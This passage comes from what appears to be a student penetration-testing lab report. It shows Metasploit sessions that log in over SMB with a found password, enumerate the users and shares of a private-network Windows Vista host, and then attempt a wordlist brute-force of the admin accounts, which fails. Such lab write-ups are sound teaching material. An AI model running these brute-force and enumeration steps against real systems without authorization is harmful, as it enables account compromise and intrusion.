   RPORT             445              yes       Set the SMB service port
   SMBDomain                          no        SMB Domain
   SMBPass                            no        SMB Password
   SMBUser                            no        SMB Username
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(smb_login) > set SMBPass summer
SMBPass => summer
msf auxiliary(smb_login) > set SMBUser User
SMBUser => User
msf auxiliary(smb_login) > set RHOSTS 192.168.248.131
RHOSTS => 192.168.248.131
msf auxiliary(smb_login) > run

[*] 192.168.248.131:445 SMB - Starting SMB login bruteforce
[+] 192.168.248.131:445 SMB - Success: 'WORKSTATION\User:summer'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_login) > 
\end{lstlisting}

Logging in worked! Next step taken was to find out what other users were on the system, using \textit{smb\_enumusers} in Metasploit:

\begin{lstlisting}[language=bash,caption={Enumerating users}]
msf > use auxiliary/scanner/smb/smb_enumusers
msf auxiliary(smb_enumusers) > show options

Module options (auxiliary/scanner/smb/smb_enumusers):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   RHOSTS                      yes       The target address range or CIDR identifier
   SMBDomain  WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   THREADS    1                yes       The number of concurrent threads

msf auxiliary(smb_enumusers) > set RHOSTS 192.168.248.131
RHOSTS => 192.168.248.131
msf auxiliary(smb_enumusers) > set SMBUser User
SMBUser => User
msf auxiliary(smb_enumusers) > set SMBPass summer
SMBPass => summer
msf auxiliary(smb_enumusers) > run

[*] 192.168.248.131 LH-0XZPOTYEAFVA [ Admin, Administrator, Guest, User ] ( LockoutTries=0 PasswordMin=0 )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}

Looks like \textit{Jane} isn't here. But \textit{Admin}, \textit{Administrator}, \textit{Guest} and our \textit{User} is. Well, \textit{Administrator} exists by default in Windows, but Admin does not. Since logging in proved successful, perhaps now enumerating shares will be successful as well: Therefore, the next step was to see what shares were available with \textit{smb\_enumshares}

\begin{lstlisting}[language=bash,caption={Enumerating shares}]
msf > use auxiliary/scanner/smb/smb_enumshares
msf auxiliary(smb_enumshares) > show options

Module options (auxiliary/scanner/smb/smb_enumshares):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   LogSpider        3                no        0 = disabled, 1 = CSV, 2 = table (txt), 3 = one liner (txt) (accepted: 0, 1, 2, 3)
   MaxDepth         999              yes       Max number of subdirectories to spider
   RHOSTS                            yes       The target address range or CIDR identifier
   SMBDomain        WORKGROUP        no        The Windows domain to use for authentication
   SMBPass                           no        The password for the specified username
   SMBUser                           no        The username to authenticate as
   ShowFiles        false            yes       Show detailed information when spidering
   SpiderProfiles   true             no        Spider only user profiles when share = C$
   SpiderShares     false            no        Spider shares recursively
   THREADS          1                yes       The number of concurrent threads
   USE_SRVSVC_ONLY  false            yes       List shares only with SRVSVC

msf auxiliary(smb_enumshares) > set SMBUser User
SMBUser => User
msf auxiliary(smb_enumshares) > set SMBPass summer
SMBPass => summer
msf auxiliary(smb_enumshares) > set RHOSTS 192.168.248.131
RHOSTS => 192.168.248.131
msf auxiliary(smb_enumshares) > run

[-] 192.168.248.131:139 - Login Failed: The SMB server did not reply to our request
[*] 192.168.248.131:445 - Windows Vista Business (Build 6000) (Unknown)
[+] 192.168.248.131:445 - ADMIN$ - (DISK) 
[+] 192.168.248.131:445 - C$ - (DISK) 
[+] 192.168.248.131:445 - IPC$ - (IPC) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}

Thus far, ADMIN\$, C\$ and IPC\$ are the available shares -- but after running an nmap script (omitted here), it seems only IPC\$ is open to any access whatsoever.

After attempting to log in to SAMBA multiple times, it seems there's no read/write access to any of these shares. We need higher privileges. As a desperate attempt, Group 3 resorted to bruteforcing these accounts for the SMB login.

First, saving the usernames to a userlist file, and then using the wordlist used to crack the passwords earlier. This will be the list of all users to be tried. Now, the same wordlist will be set as PASS\_FILE and this user list as USER\_FILE for the smb\_login auxiliary scanner module in metasploit. Hopefully, with some luck, access could have been gained:

\begin{lstlisting}[language=bash,caption={}]
root@battlestation:~# printf "Admin\nAdministrator\nGuest" > userlist
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASS_FILE                          no        File containing passwords, one per line
   PRESERVE_DOMAINS  true             no        Respect a username that contains a domain name.
   RECORD_GUEST      false            no        Record guest-privileged random logins to the database
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             445              yes       Set the SMB service port
   SMBDomain                          no        SMB Domain
   SMBPass                            no        SMB Password
   SMBUser                            no        SMB Username
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(smb_login) > set PASS_FILE /root/rockyou.txt
PASS_FILE => /root/rockyou.txt
msf auxiliary(smb_login) > set USER_FILE /root/userlist
USER_FILE => /root/userlist
msf auxiliary(smb_login) > set RHOSTS 192.168.248.131
RHOSTS => 192.168.248.131
msf auxiliary(smb_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf auxiliary(smb_login) > run

[*] 192.168.248.131:445 SMB - Starting SMB login bruteforce

...

[-] 192.168.248.131:445 SMB - Failed: 'WORKSTATION\Admin:082807', Login Failed: The server responded with error: STATUS_LOGON_FAILURE (Command=115 Wordcount=0)
...
\end{lstlisting}

That final line was repeated many, many, many times. Other attempts were manually logging in with \textit{rpcclient} and \textit{smbclient}, but listing directories let alone writing was not possible anywhere, on any share.
